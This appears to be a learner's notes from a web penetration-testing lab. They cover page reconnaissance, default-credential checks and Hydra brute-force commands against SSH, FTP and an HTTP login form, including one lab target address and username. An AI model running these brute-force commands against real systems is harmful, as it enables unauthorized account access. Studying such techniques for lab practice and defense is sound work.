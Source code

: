 # Notes

<hr class="sep-both">

## Web

* source / view-source:
  * HTML comments
  * hidden stuff
  * try to find the framework used/version
    * test default credentials
    * test bruteforce with default username
    * test if there are vulnerabilities for this version
* inspector
  * show/hide/remove elements
* debugger (in sources on chrome)
  * put a break point
  * run the page again, the page will pause waiting for debugger
* Network
  * Header
  * Response
  * ...

Penetration tester (web)
=> map every feature=~page (like both /account /account?id=5)

<hr class="sep-both">

## Hydra

* https://github.com/vanhauser-thc/thc-hydra
* bruteforce some authentication service
  * MYSQL
  * RDP
  * SSH

This shows the importance of using a strong password, if your password is common, doesn't contain special characters and/or is not above 8 characters, its going to be prone to being guessed. 100 million password lists exist containing common passwords, so when an out-of-the-box application uses an easy password to login, make sure to change it from the default! Often CCTV camera's and web frameworks use admin:password as the default password, which is obviously not strong enough.

* hydra -l username -P rockyou.txt ssh://MACHINE_IP
* hydra -l username -P rockyou.txt ftp://MACHINE_IP
* `-t n`: use $n$ threads
* hydra -l username -P rockyou.txt MACHINE_IP ssh
* Post Web Form
* http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
  * /login
  * name="usernam" is filled with the username (USER)
  * name="password" is filled with the password (PASS)
  * F=incorrect means that the attempt is incorrect is this word is on the page
* -V: verbose
* hydra -l molly -P rockyou.txt 10.10.19.153 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V